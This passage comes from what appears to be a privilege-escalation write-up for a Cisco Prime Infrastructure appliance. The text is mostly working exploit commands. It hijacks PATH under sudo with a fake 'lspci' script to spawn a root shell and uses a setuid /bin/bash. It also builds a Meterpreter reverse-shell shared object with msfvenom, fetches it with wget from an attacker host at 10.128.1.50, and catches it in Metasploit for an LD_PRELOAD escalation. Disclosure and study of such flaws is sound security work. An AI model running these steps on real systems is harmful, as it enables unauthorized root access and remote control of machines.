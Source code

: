 Now we can see that `/bin/bash` has `rws` set.

```bash
/bin/bash -p

bash-4.2# id
uid=998(prime) gid=995(prime) euid=0(root) groups=995(prime),0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Other scripts, like `physical_appliance_hyper_v_check.sh`, also prepend to `PATH` without calling `init.sh`:

```bash
# physical_appliance_hyper_v_check.sh
# !/bin/sh
export PATH=$PATH:/usr/bin:/bin:/usr/sbin:/sbin

echo "Display"
lspci | grep -i Hyper-V
```

We can use the same method here.

```bash
echo "bash -pi" > /tmp/lspci
chmod +x /tmp/lspci
sudo PATH=/tmp /opt/CSCOlumos/rcmds/physical_appliance_hyper_v_check.sh
/bin/bash -p
```

---

## PrivEsc #3

With `SETENV` permissions, we can set the `PATH` variable to run malicious code as sudo, but we can also leverage the `LD_PRELOAD` environment variable. `LD_PRELOAD` allows users to specify custom shared libraries to be loaded before executing the specified script or command.

First, we create a shared object file (`.so`) using `msfvenom`:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.128.1.50 LPORT=4444 -f elf-so -o revshell.so

python3 -m http.server 80
```

Next, we download `revshell.so` on the target machine:

```bash
wget http://10.128.1.50/revshell.so
chmod +x revshell.so
```

To catch the reverse shell, we use the Metasploit `multi/handler` module:

```bash
msfconsole
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 10.128.1.50
run
```
